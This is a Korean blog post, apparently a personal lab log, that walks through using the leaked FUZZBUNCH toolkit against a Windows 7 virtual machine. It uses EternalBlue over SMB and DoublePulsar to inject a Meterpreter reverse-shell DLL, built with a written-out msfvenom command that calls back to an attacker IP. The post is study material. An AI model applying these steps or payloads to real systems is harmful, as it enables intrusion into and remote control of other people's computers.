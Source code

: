 ```yaml
---
layout: post
cover: 'assets/images/cover6.jpg'
title:  FUZZBUNCH를 사용한 해킹
date:   2017-07-11 01:01:01
tags: fiction
subclass: 'post tag-fiction'
categories: 'pjya0321'
navigation: True
logo: 'assets/images/ghost.png'
---
```



## 이터널블루와 더블풀자를 사용한 해킹
-----

해당 글은 가상환경 에서 실행했습니다.  
실제 환경에서 악용하면 나빠요 내책임아니에용  

쉐도우 프로커가 유출한 FUZZBUNCH 공부 기록  

윈도우XP 에 설정했다.  

필요한 준비물은  

https://github.com/misterch0c/shadowbroker  
쉐도우 브로커 자료 깃허브  
https://www.python.org/download/releases/2.6.6/  
파이썬 2.6  
https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/  
Pywin32 2.6버전  

요로케 3개  
왜 파이썬 2.6을 사용하는지는 잘모르지만 윈10에 2.6깔기 싫어서 가상에다 했다.  

그리고 환경변수 Path에 파이썬 경로 설정해준다.  

설정은 끝났다.  


cmd창에서 shadowbroker-master\windows 경로에 있는 fb.py 를 실행시킨다.  
실행시키기 전에 windows 경로에 listeningposts라는 폴더를 하나 생성해준다.  


![1](assets/postimage/Fuzz1.png)
fb.py를 실행하면 이런 화면이 보이고 순서대로 입력해준다  

타겟아이피 입력  
콜백아이피 입력(공격자 아이피)  
리다이렉션 사용은 알아서 (NO로 했음)  
로그를 기록할 디렉토리  

![2](assets/postimage/Fuzz2.png)

그리고  
프로젝트 인덱스는 대충 숫자 설정해주고  
프로젝트 이름도 설정 해주고   
로그 기록할껀지 말껀지 설정해주면  

퍼즈번치로 들어와짐  

use 명령어 입력하면 모듈들이 나온다  

![3](assets/postimage/Fuzz3.png)

use Eternalblue 을 입력하면 이터널블루가 실행된다.  

다양한 설정들 할꺼냐 안할꺼냐 하는데 그냥 디폴트값 계속 할꺼라서 엔터 눌러주면됨  
445포트는 SMB포트임  
중간에 Mode는 1번 해야 퍼즈번치사용함  

![4](assets/postimage/Fuzz4.png)

방화벽이 켜져있으면 위같은 화면이 나온다.  

![5](assets/postimage/Fuzz5.png)

타겟 을 윈7가상으로 바꾸고 방화벽을 내리고 다시 실행했다  
이번엔 이터널블루 석세스가 뜬다.  

![6](assets/postimage/Fuzz6.png)


칼리에서  

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.254.129 lport=4444 -f dll -o /root/Desktop/kangol.dll  

명령어를 입력해서 악성 dll을 생성한다.  
그리고 그걸 공격하던 xp로 가져온다.  

![8](assets/postimage/Fuzz8.png)

핸들러 하나 설정해준다. 위 dll악성코드와 동일한설정으로 한다.  

![9](assets/postimage/Fuzz9.png)


그리고 메타스플로잇으로 방금만든 핸들러를 실행시켜준다  

![7](assets/postimage/Fuzz7.png)

다시 공격하던 XP로 돌아가서 use Doublepulsar 명령어를 입력해서 더블풀자를 실행한다. 

![10](assets/postimage/Fuzz10.png)

설정들을 디폴트로 해주다가  

중간에 펑션에서 우리가 사용할 악성코드는 DLL이기 때문에 2번 dll을 설정해준다.  
그리고 DLL페이로드 경로는 생성한 악성 DLL의 경로를 넣어준다.  

프로세스 네임을 디폴트값으로 해주면 윈7을 해킹할 때 금방 꺼지기 때문에  
explorer.exe로 설정한다.  

설정은 완료하면 더블풀자 석시드~ 나온다  

![11](assets/postimage/Fuzz11.png)

다시 칼리리눅스로 돌아가서 인터프리터 세션이 하나 실행됬다.  

![12](assets/postimage/Fuzz12.png)

리버싱하던 윈7이라 컴이름이 리버스엔지니어링으로 나온다 ㅇㅅㅇ  

![13](assets/postimage/Fuzz13.png)

sessions -i 1  
을 입력한다.  

그리고 이런저런 명령어를 처보면 해킹이 됬다는것을 알 수 있다.  
![14](assets/postimage/Fuzz14.png)

윈도우7의 바탕화면을 스크린샷 한 모습이다.  
끝  
커버로스님 짱
